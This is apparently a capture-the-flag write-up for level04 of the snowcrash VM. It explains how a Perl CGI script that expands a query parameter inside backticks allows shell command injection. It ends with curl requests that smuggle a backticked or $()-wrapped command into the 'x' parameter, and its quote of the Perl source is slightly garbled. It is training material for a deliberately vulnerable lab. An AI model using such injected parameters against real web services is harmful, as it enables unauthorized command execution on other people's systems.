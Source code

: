 At the root of the repo is a file name level04.pl. 
Files like these are executed by the perl interpreter (specified by the first line of the code): #!/usr/bin/perl 

The second line is a comment, and indicates the port it's running on: # localhost:4747. netstat -tuln shows port 4747 is open.

Curl is on the snowcrash VM, so we can even connect to the port directly and check the response using

curl -I http://localhost:4747

Next is a function x which takes a parameter. That parameter is assigned to y.

sub x { $y = $_[0]; print echo $y 2>&1; } it prints the result of the echo $y command, 

but since it is in backticks, which expand the variables within, it represents an injection vulnerability.

you can therefore pass a command to 'x' and have it execute. In our case, that's getflag.

Typical formats don't work (backticks, $() etc. because it has to be URL-compatible)

So the command is 

curl http://localhost:4747/level04.pl?x=%60getflag%60 
curl 'localhost:4747?x=$(getflag)'
curl 'localhost:4747?x=`getflag`'


